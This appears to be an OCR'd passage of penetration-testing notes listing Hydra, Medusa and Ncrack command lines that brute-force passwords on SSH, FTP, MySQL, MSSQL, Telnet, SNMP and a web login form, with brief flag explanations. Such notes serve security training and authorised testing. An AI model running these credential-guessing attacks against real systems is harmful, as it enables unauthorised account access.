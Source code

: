             -   hydra -V -P pass.txt 192.168.1.244 snmp

            -   hydra -V -L users.txt -P pass.txt -t 20 192.168.1.104
                ftp -\>default 16 thread

            -   hydra -V -L users.txt -P pass.txt -t 10 192.168.1.104
                ssh

            -   hydra -V -L users.txt -P pass.txt -t 10 192.168.1.104
                mysql

            -   hydra -V -L users.txt -p \"\" -t 10 192.168.1.104 mysql

            -   hydra -V -L users.txt -P pass.txt -t 10 192.168.1.104
                telnet

            -   hydra -V -L users.txt -P pass.txt -t 20 192.168.43.20
                http-post-form
                \"/login.php:username=\^USER\^&password=\^PASS\^&Login=Login:Login
                failed\"

                -   username=\^USER\^ specify field for username

                -   password=\^PASS\^ specify field for password

                -   -P specifies name of password list

                -   -L specifies name of username list

                -   -s to specify port 

                -   &login=login  specify Log In button

        -   **Medusa**

            -   Medusa \[-h host\|-H file\] \[-u username\|-U file\]
                \[-p password\|-P file\] \[-C file\] -M protocol

            -   medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp

            -   medusa -u user -P passwords.txt -t 10 -h 192.168.0.2 -e
                ns -F -M mssql -n 1433                

            -   medusa -u root -P passwords.txt -t 10 -h 192.168.0.2 -e
                ns -F -M {ssh, ftp }

                -   Suppose on scanning the target network I found SSH
                    is running port 2222 instead of 22 so we can specify
                    a port nb by **--n** { --M ssh --n 2222 }       

                -   Using option **-e along with ns **will try null
                    password and password as username while making brute
                    force attack

                -   Stop after first valid username/password found then
                    you can use **-f option**.     

        -   **Ncrack**

            -   ncrack -vv \--user \[User\] -P passwd.txt
                \[protocol\]://\[IP\]
